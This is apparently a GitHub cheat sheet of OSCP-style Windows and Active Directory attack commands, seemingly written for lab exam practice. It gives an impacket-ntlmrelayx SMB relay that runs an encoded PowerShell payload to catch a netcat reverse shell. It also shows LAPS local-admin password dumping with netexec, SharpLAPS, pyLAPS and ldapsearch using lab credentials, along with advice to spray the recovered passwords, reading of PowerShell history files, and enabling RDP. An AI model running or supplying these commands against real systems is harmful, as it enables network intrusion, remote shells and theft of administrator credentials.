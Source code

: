 ### SMB NTLM relay Attack

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."

here 192.168.50.242 is any external target address

listen on 9999

and in the target enter //kali_ip/test

you will get connection from traget on net cat listner !!
```


### LAPS or ReadLAPSPassword

![image](https://github.com/kullaisec/OSCP/assets/99985908/db596238-7457-4ce9-a9aa-34c49057aa47)

![image](https://github.com/kullaisec/OSCP/assets/99985908/81dec7e5-1334-4009-8ae6-412b2943ec6a)

```bash
# netexec ldap 192.168.225.122 -u username -p password --kdcHost HUTCHDC[see image] -M laps
```
```
Another tool: https://github.com/swisskyrepo/SharpLAPS

PS C:\temp> .\SharpLAPS.exe /user:hutch.offsec\fmcsorley /pass:CrabSharkJellyfish192 /host:192.168.225.122

you can also make use of pyLAPS.py tool 

pyLAPS.py --action get -d "oscp.lab" -u <username> -p <password> --dc-ip <DC_IP>

Another method command using ldapsearch :

# ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.225.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
By this you can only get the Passwords not usernames the password is basically the Local admins passwords make a try on it or spray the passwords !! 


#### Search anywhere file in windows:
```powershell
> dir /s/b \local.txt
```
```powershell
PS> Get-ChildItem -Path C:\ -Recurse -Filter *.log
```

#### Powershell History:
```powershell
PS C:\Users\adrian> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
#### If you have access as local admin in any windows system try to enable RDP
